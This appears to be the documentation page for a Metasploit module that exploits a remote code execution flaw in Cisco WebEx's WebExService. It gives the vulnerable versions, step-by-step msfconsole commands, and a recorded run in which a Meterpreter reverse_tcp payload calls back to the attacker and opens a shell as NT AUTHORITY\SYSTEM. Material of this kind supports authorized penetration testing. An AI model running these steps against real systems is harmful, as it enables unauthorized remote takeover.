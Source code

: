## Description

  This module exploits a remote code execution vulnerability in Cisco's WebEx client software for versions < v33.6.0.655.

  Vulnerable WebEx clients come with the `WebExService` that can execute arbitrary commands with System privileges.
  Due to insufficient checks on permissions, a local or domain user can start the `WebExService` through a remote connection
  and execute code.

## Vulnerable Application

  Cisco WebEx software v33.3.8.7 and below

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/smb/webexec```
  4. Do: ```set RHOSTS <IP>```
  5. Do: ```set SMBUser <USERNAME>```
  6. Do: ```set SMBPass <PASSWORD>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```

  msf > use exploit/windows/smb/webexec 
  msf exploit(windows/smb/webexec) > set smbuser a_user
  smbuser => a_user
  msf exploit(windows/smb/webexec) > set smbpass password
  smbpass => password
  msf exploit(windows/smb/webexec) > set rhosts 192.168.37.136
  rhosts => 192.168.37.136
  msf exploit(windows/smb/webexec) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(windows/smb/webexec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(windows/smb/webexec) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] 192.168.37.136:445 - Connecting to the server...
  [*] 192.168.37.136:445 - Authenticating to 192.168.37.136:445 as user 'a_user'...
  [*] 192.168.37.136:445 - Command Stager progress -   0.96% done (999/104435 bytes)
  [*] 192.168.37.136:445 - Command Stager progress -   1.91% done (1998/104435 bytes)
  ...
  [*] 192.168.37.136:445 - Command Stager progress -  99.47% done (103880/104435 bytes)
  [*] 192.168.37.136:445 - Command Stager progress - 100.00% done (104435/104435 bytes)
  [*] Sending stage (179779 bytes) to 192.168.37.136
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.136:49158) at 2018-10-24 09:10:46 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > 

  ```
